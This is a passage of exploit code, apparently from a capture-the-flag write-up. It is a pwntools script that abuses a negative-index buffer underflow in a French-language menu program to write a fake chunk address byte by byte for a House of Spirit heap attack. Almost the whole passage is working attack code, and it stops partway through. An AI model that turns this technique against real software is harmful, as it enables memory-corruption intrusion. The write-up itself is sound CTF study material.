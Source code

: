 ```python
p.sendline(b"1")
p.recvuntil(b"capable :")
p.send(b"A"*104)

# Execute our combo in order to reach the vulnerable code
p.recvuntil(b">")
p.sendline(b"2")
p.recvuntil(b"2. Improviser un nouveau combo")
p.sendline(b"1")
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

# We underflow the buffer in order to perform a House of Spirit
# We will free an address on the stack inside our buffer
log.info("[+] Performing House of Spirit attack")

p.recvuntil(b"modifier ?")
p.sendline(b"-56")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-55")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 8 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-54")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 16 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-53")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 24 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-52")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 32 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-51")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 40 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-50")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 48 & 0xff)]))
p.recvuntil(b"[oui/non]")
```